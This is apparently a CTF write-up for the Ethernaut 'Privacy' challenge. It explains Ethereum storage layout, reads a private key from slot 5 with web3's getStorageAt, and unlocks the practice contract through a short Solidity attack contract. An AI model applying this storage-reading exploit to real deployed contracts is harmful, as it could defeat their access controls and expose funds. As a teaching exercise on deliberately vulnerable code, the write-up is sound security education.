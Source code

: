 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

Challenge's  message:

>The creator of this contract was careful enough to protect the sensitive areas of its storage. Unlock this contract to beat the level.
Things that might help: - Understanding how storage works - Understanding how parameter parsing works - Understanding how casting works

In this write-up, we will focus on Privacy contract. The contract has several state variables defined. At first, there is a **locked** *boolean* variable which equals true. Secondly, we have an **ID** variable that is a public *uint256* variable that stores the timestamp value when the contract is created. Then, there is two *uint8* type variable and one *uint16* type variable. And there is bytes32 type an private array which has 3 array slots. In the constructor, the contract gets same type an array called **_data**.
Finally, there is a **unlock()** function that gets bytes16 type of an argument named **_key** and it checks if this argument same bytes16 type of **data** array's 2nd slot. If the condation is true, the unlock variable will be false.

In this point, we are clearly see that if someone get the value of the data array's 2nd slot, he easily unlocked the challenge. Well, how do we get this value from the contract? Let's move on.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<p align="center"><img  height="200" src="https://programtheblockchain.com/storage/storage.png"></p>

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<p align="center"><img height="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png"></p>

More about  [Smart Contract's Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Accessing Private Variabes In Contract's Storage

In solidity, unlike the general idea that someone can't access any private variable from external calls, we can access private variables from contract's storage because of the **_contract's storage open to external calls_**. In this senario, some libraries help us like **_web3_** to attain storage of contracts in blockchain. More about [Accessing Contract's Storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

When you access storage of a contract with web3 library, you should use like this ```web.eth.getStorageAt(contract address,slot index)``` . More about [getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)


# Subverting

In the overview , we mentioned that if we get the access of data array'slot values, the challenge will be solved. After get access to private data, the only thing we must do is convert to the 2nd slot value into bytes16 format and send to challenge contract's unlock function. Here is our attack contract helps us to solve the challenge.

```solidity
pragma solidity ^0.8.17;

import './Privacy.sol';

contract Attack{

    Privacy target;

    constructor(address _target){
        target = Privacy(_target);
    }

    function attack(bytes32 _key) external{
        bytes16 key = bytes16(_key);
        target.unlock(key);
    }

}
```

Shortly, our attack contract gets an instance of target contract in constructor. Later, in the attack function, it gets an bytes32 type an argument called **_key** which is retrive 2nd slots of data array from the target contract and it **converts the argument into bytes16 format**. Final it calls the unclock() function with the new key.

```shell
await contract.locked()
true
```

```shell
await web3.eth.getStorageAt("0x9723e4E6B0F5A32329253F55a80f29fFf3ae73d5", 5)
'0x7ec6a7b3fd05ab43951c4d7f2ed28ebdd4e5d435279430a3fd6b0f1df716e32d'
```

```shell
await contract.locked()
false
```

> Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's getStorageAt(...) can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.


